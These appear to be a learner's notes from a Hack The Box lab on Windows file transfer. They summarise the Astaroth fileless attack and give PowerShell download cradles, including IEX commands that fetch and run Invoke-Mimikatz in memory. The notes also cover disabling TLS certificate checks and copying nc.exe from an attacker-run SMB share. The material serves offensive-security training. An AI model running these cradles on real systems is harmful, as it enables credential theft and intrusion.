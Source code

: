 - this will help us to under stand how to attack and defend the windows os 
- [microsoft astaroth attack ](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
- **Fileless Malware**: A type of malware that doesn't directly save a malicious file on the disk. Instead, it uses legitimate system tools and runs directly in memory, making it harder to detect.
- The **Astaroth Attack** is an example of a fileless attack that uses multiple Windows tools to download and execute malicious payloads without leaving clear traces.

![[shell and payload/image.png]]

- `WMIC`- windows management instrumentation command line that uses "/Format"  parameter (this is one of the legitimate windows tool) this will allows download and exe js code
- `Bitsadmin` : js payload used this tool a windows legit one to download malicious files . 
- they are downloaded in `Base 64 encoded form` make more less suspicious
- then base 64 is decoded using `certuil` this results a `DLL Dynamic link library files`
- the `regsvr32` tool is use to load DLL
- the payload `Astaroth` is injected into `userinit process`  

### power shell base64 encode and decode
- depend on the file size we can transfer files over network 
- if we have access to terminal we can encode a file to base64 string and copy from terminal and perform the reverse operation and decode 
- We can use [md5sum](https://man7.org/linux/man-pages/man1/md5sum.1.html), a program that calculates and verifies 128-bit MD5 checksums

- ### What is `md5sum` (MD5 Checksum)?

- **`md5sum`** is a command used to generate an **MD5 hash (128-bit fingerprint)** of a file.
    
- This hash is like a **digital signature** of the file — if the file changes even slightly, the MD5 hash will also change.
    
- It helps you verify that the file transferred without corruption.

### calculate MD5
```bash
#linux
md5sum file_name

cat file_name |base64 -w 0;echo

```
`-w 0`: Removes any line breaks, making it a **single continuous Base64 string**

### upload in powershell
```powershell
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\file_name", [Convert]::FromBase64String("base64 string"))
```

### confirm if the file was transferred successfully
tool (w) : get-filehash
```powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```


```While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.```

### power shell web download
- HTTP and HTTPS for file transfer but most of the time firewall and filters are present
- PowerShell offers many file transfer options. In any version of PowerShell, the [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`.

|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|

### examples

1. using `Net.WebClient` and  `DownloadFile` with parameters
```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')



PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

#### PowerShell DownloadString - Fileless Method

As we previously discussed, fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

`IEX` also accepts pipeline input.

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

#### PowerShell Invoke-WebRequest

From PowerShell 3.0 onwards, the [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases `iwr`, `curl`, and `wget` instead of the `Invoke-WebRequest` full name.

  Windows File Transfer Methods

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239). It is worth gaining familiarity with them and their nuances, such as a lack of proxy awareness or touching disk (downloading a file onto the target) to select the appropriate one for the situation.

#### Common Errors with PowerShell
when the Internet Explorer first-launch configuration has not been completed, which prevents the download.
This can be bypassed using the parameter `-UseBasicParsing`.
```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB Downloads

The Server Message Block protocol (SMB protocol) that runs on port TCP/445 is common in enterprise networks where Windows services are running. It enables applications and users to transfer files to and from remote servers.

We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket and then use `copy`, `move`, PowerShell `Copy-Item`, or any other tool that allows connection to SMB

create the SMB server
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
#### Copy a File from the SMB Server
```cmd
C:\htb> copy \\192.168.220.133\share\nc.exe


You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.


To transfer files in this scenario, we can set a username and password using our Impacket SMB server and mount the SMB server on our windows target machine:
```
#### Create the SMB Server with a Username and Password
```shell-session
CaraxesL@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

#### Mount the SMB Server with Username and Password
```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test

copy n:\nc.exe
```
